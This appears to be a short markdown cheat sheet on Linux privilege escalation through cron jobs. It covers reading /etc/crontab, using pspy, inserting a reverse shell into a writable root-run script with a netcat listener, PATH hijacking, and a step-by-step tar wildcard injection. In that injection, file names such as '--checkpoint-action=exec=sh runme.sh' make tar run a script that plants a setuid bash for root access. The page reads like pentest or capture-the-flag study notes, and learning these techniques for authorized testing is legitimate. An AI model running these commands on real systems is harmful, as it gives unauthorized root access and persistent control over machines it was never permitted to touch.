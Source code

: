 ## Program to use: pspy https://github.com/DominicBreuker/pspy

### cat /etc/crontab

#### If we have write permissions on the script, we can modify it to enter a reverse shell in it that will automatically run as root.

### Reverse shell source:  Revshells https://revshells.com/

#### Open a listener then wait. 

#### Example: nc -lvnp PORT

### If the full path of the script is not defined in the cronjob, then we can create our own script with the same name and run based on the PATH variables in the /etc/crontab file.

### We can also abuse wildcards for certain cronjobs to gain root.

## Wildcard Injection example:

### If a cronjob contains a wildcard utilizing tar we can do:

#### 1) echo 'cp /bin/bash /tmp/bash; chmod u+s /tmp/bash' > runme.sh

#### 2) chmod +x runme.sh

#### 3) echo "" > --checkpoint=1

#### 4) echo "" > --checkpoint-action=exec=sh runme.sh

#### 5) /tmp/bash -p

### Note: Do the injection in the correct directory the automated script goes to so that it can actually run the injected commands via tar
